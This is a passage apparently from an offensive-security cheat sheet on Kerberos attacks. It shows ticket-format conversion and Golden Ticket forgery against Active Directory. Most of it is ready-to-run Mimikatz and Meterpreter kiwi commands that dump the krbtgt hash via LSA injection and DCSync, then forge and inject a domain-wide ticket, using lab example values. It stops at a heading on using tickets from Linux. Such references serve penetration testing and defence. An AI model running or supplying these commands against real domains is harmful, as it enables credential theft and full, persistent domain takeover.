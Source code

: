 
While both caches serve the same basic purpose of storing Kerberos tickets to enable efficient access to network resources, they differ in format and structure. You can convert them easily using:

- kekeo: `misc::convert ccache ticket.kirbi`
- impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`

### Pass-the-Ticket Golden Tickets

Forging a TGT require:

- the `krbtgt` NT hash
- since recently, we cannot use a non-existent account name as a result of `CVE-2021-42287` mitigations

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt NT hash must be used.

#### Using Mimikatz

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

#### Using Meterpreter

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```

#### Using a ticket on Linux
